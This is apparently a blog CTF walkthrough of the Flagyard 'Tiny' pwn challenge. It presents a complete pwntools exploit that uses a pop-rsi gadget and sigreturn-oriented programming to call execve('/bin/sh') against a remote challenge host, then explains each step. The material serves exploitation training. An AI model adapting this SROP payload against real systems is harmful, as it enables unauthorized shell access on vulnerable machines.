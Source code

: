 ```yaml
---
title: "Flagyard - Tiny"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Forens/Torrent Tempest
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Tiny](https://flagyard.com/labs/training-labs/13/challenges/3f614fb4-65b8-48a3-894a-3e918a6d182d)|
|Category:|PWN|

# 01. Description
## Introduction
This task comes from the challenge platform **flagyard.com** and is marked as **easy**. However, the solution requires creative techniques and in-depth knowledge of exploitation concepts. While the binary is small and lacks traditional protections, the limited set of gadgets and syscall handling makes this challenge more intricate than it initially appears.
{: .text-justify}

## Binary Information

### **Checksec Results**
```plaintext
   Arch:       amd64-64-little
   RELRO:      No RELRO
   Stack:      No canary found
   NX:         NX unknown - GNU_STACK missing
   PIE:        No PIE (0x400000)
   Stack:      Executable
   RWX:        Has RWX segments
   Stripped:   No
```

### **LDD Results**
```plaintext
ldd ./tiny
        not a dynamic executable
```

### **Analysis**
- **No external libraries:** The binary is not dynamically linked; it does not use external shared libraries.
- **Built-in functions:** The binary contains internal implementations of `read`, `write`, and a `gadget` symbol. This indicates custom syscall handling.
- **No stack protections:** The binary lacks stack canaries, RELRO, and NX, making exploitation theoretically easier.
- **One useful gadget:** The only usable gadget is `pop rsi; ret`, significantly limiting the available ROP chain options.

---

## Time Spent on the Exploit
I spent several hours working on this solution. Despite the binary being named "tiny," it was far from simple. The challenge does not involve traditional buffer overflow vulnerabilities. Instead, you construct ROP chains directly while supplying data to the binary.
{: .text-justify}
Due to the lack of useful gadgets (with only `pop rsi` being helpful), the exploit heavily relies on `sigreturn` to gain full control over the registers. Crafting the right approach to manipulate syscalls and use a minimal set of gadgets required significant effort and debugging.
{: .text-justify}
---
## Solve in Python
```python
from pwn import *  # Include pwntools library

# Set up context for the exploit
context.update(arch='x86_64', os='linux')  # Set architecture and OS for pwntools
context.terminal = ['wt.exe', 'wsl.exe']   # Use Windows Terminal with WSL

# Load the binary
binary = context.binary = ELF("./tiny", checksec=False)

# Determine whether to connect locally or remotely
if args.REMOTE:
    p = remote('nc 34.252.33.37 32435'.split()[1], 32435)  # Remote connection
else:
    p = process(binary.path)  # Local process

# Gadgets and addresses
pop_rsi = binary.sym["gadget"]          # Resolve the symbol for the pop_rsi gadget
bss = 0x0000000000402008                # Address of the writable .bss section
read = 0x000000000040103c               # Modified read function to ignore unnecessary registers
syscall = 0x000000000040102d            # syscall gadget with ret

# Prepare the SigreturnFrame for sigreturn-oriented programming (SROP)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b            # Set rax to 59 for execve
frame.rdi = bss             # Set rdi to point to /bin/sh in .bss
frame.rsi = 0x0             # Set rsi to NULL (argv)
frame.rdx = 0x0             # Set rdx to NULL (envp)
frame.rip = syscall         # Set rip to the syscall gadget

# Build the ROP payload
# - Load the .bss address into rsi using pop_rsi
# - Call the read function to write "/bin/sh" into .bss
# - Prepare the sigreturn frame to set registers for execve
payload = (
    p64(pop_rsi) + p64(bss) + p64(read) +  # Load bss into rsi for the read syscall
    p64(syscall) + bytes(frame)           # Trigger the sigreturn syscall with the frame
)

p.sendafter(b"rop me:", payload)          # Send the payload
                                          # Includes:
                                          # - Loading bss into rsi
                                          # - Calling read to populate bss with "/bin/sh"
                                          # - Preparing the sigreturn frame to set registers

p.send(b"/bin/sh" + b"\x00" * 8)          # Send "/bin/sh" to bss and ensure rax = 15 for sigreturn
                                          # Creates the string "/bin/sh" and prepares for execve

p.interactive()                           # Switch to interactive mode to access the shell
```
## Explanation of How the Exploit Works

### **Binary Setup**
The binary lacks standard protections, which makes it theoretically exploitable. However, it compensates for this with very limited gadgets and built-in syscall handling, requiring a creative approach using Sigreturn-Oriented Programming (SROP).
{: .text-justify}
### **Step-by-Step Explanation**

1. **Dynamic Resolution of Gadgets:**
   - The `pop rsi` gadget is dynamically resolved using `binary.sym["gadget"]`. This makes the exploit more robust to changes in the binary.

2. **Writable Memory Section:**
   - The `.bss` section (address `0x402008`) is used as a writable location to store the `/bin/sh` string.

3. **Crafting the Payload:**
   - The payload is built to:
     1. Load the `.bss` address into the `rsi` register using the `pop rsi` gadget.
     2. Call the `read` function to write `/bin/sh` into `.bss`.
     3. Set up a `SigreturnFrame` to configure the registers for the `execve` syscall.

4. **Triggering the Sigreturn:**
   - After sending `/bin/sh` to the binary, the `read` syscall completes and sets `rax = 15` (number of bytes read), triggering the `sigreturn` syscall.
   - The `sigreturn` syscall uses the `SigreturnFrame` to set all necessary registers:
     - `rax = 59`: Syscall number for `execve`.
     - `rdi = 0x402008`: Address of `/bin/sh` in `.bss`.
     - `rsi = 0` and `rdx = 0`: NULL pointers for arguments and environment variables.
     - `rip = syscall`: Address of the syscall gadget.

5. **Executing the `execve` Syscall:**
   - The `execve` syscall executes successfully, launching an interactive shell.

### **Key Takeaways**
- This exploit demonstrates the power of SROP in a minimalistic binary with limited gadgets.
- By using the `sigreturn` syscall, full control over all registers is achieved, bypassing the limitations imposed by the binary's design.
- Despite its simplicity in appearance, this binary requires an advanced understanding of syscall behavior and ROP chains to exploit effectively.

## Summary
This was an interesting challenge. It taught me a new technique, patience, and the importance of not giving up. Despite its minimalistic design, the task required a deep understanding of system calls and exploitation strategies, making it a rewarding learning experience.
{: .text-justify}


